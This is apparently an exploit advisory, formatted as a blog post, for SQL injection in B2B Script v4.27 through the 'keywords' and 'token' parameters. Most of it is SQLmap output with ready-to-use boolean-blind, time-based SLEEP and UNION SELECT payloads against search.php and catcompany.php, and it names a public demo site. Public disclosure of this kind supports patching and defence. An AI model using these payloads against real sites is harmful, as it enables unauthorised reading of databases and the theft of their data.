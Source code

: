 ```yaml
---
layout: post
title: B2B Script v4.27 - SQL Injection - 18.01.2017
---
```


 An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.

<br># Vulnerability: B2B Script v4.27 - SQL Injection
<br># Date: 18.01.2017
<br># Software link: http://itechscripts.com/b2b-script/
<BR># Demo: http://b2b.itechscripts.com
<BR># Price: 199$
<BR># Category: webapps
<BR># Exploit Author: Dawid Morawski
<BR># Website: http://www.morawskiweb.pl
<BR># Contact: dawidmorawski1990@gmail.com
<BR>#######################################
<BR>
<BR>1. Description
<BR>An attacker can exploit this vulnerability to read from the database.
<BR>
<BR>2. SQL Injection / Proof of Concept:
<BR>
<BR>http://localhost/[PATH]/search.php?keywords=[SQL]
<BR>SQLmap outout:
<BR>
<BR>Parameter: keywords (GET)
 <BR>   Type: boolean-based blind
    <BR>Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   <BR> Payload: keywords=-7908') OR 3641=3641#
<BR>
    <BR>Type: UNION query
    <BR>Title: MySQL UNION query (NULL) - 2 columns
    <BR>Payload: keywords=Products') UNION ALL SELECT <BR>NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
<BR>---
<BR>[INFO] testing MySQL
 <BR>[INFO] confirming MySQL
 <BR>[INFO] the back-end DBMS is MySQL
<BR><
BR>#########################################
<BR>
<BR>
<BR>http://localhost/[PATH]/catcompany.php?token=[SQL]
<br>SQLmap outout:
<br>
<br>Parameter: token (GET)
    <br>Type: boolean-based blind
    <br>Title: AND boolean-based blind - WHERE or HAVING clause
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm
<br>
  <br>  Type: AND/OR time-based blind
  <br>  Title: MySQL >= 5.0.12 AND time-based blind
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ
<br>
  <br>  Type: UNION query
  <br>  Title: Generic UNION query (NULL) - 6 columns
  <br>  Payload: token=-7417' UNION ALL SELECT <br>NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NUL<br>L,NULL,NULL,NULL-- aNXq


